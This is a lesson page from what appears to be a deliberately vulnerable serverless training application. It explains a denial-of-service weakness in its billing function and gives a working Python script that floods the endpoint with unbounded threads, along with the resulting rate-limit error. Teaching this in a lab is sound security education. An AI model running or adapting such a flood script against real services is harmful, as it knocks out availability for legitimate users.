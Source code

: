 # LESSON #6: Denial of Service (DoS)

To avoid flooding the 3rd party payment processing (its not really 3rd-party, but think about it as a STRIPE), the DVSA is configured to allow only 10 concurrent invocation of the billing processing.

This means that an attacker can cause a Denial of Service on the payment processing in the applicaiton, simply by sending the billing request in at least 10 parallel threads.

This simply python code will exploit it (with sample data):

```python
import threading
import requests

def dos():
    payload = '{ "action":"billing", "order-id": "9f51b1e1-eff9-4dc1-8e17-7ee19ba51272", "data": {"ccn": "4242424242424242", "exp": "11/2020", "cvv": "444"} }'
    url = "https://qz0yy61905.execute-api.us-east-1.amazonaws.com/dev/order"
    headers = {"Authorization": "eyJraWQiOiIyQ1dZekh0dTV..............BVVplWk9qenw"}

    r = requests.post(url, data=payload, headers=headers)
    print (r.text)
    return


while True:
    threading.Thread(target=dos).start()

```

As a result, any other user that will try to invoke this service will receive:
```
{
  "message": "Rate Exceeded.",
  "code": "TooManyRequestsException",
  "time": "2018-12-22T23:25:29.935Z",
  "requestId": "deec6aa7-0640-11e9-9e02-a529a60fefd1",
  "statusCode": 429,
  "retryable": false,
  "retryDelay": 17.57835303415325
}
```
- - -
[ToC](../LESSONS/README.md) | [1](../LESSONS/LESSON_01.md) | [2](../LESSONS/LESSON_02.md) | [3](../LESSONS/LESSON_03.md) | [4](../LESSONS/LESSON_04.md) | [5](../LESSONS/LESSON_05.md) | [6](../LESSONS/LESSON_06.md) | [7](../LESSONS/LESSON_07.md) | [8](../LESSONS/LESSON_08.md) | [9](../LESSONS/LESSON_09.md) | [10](../LESSONS/LESSON_10.md)
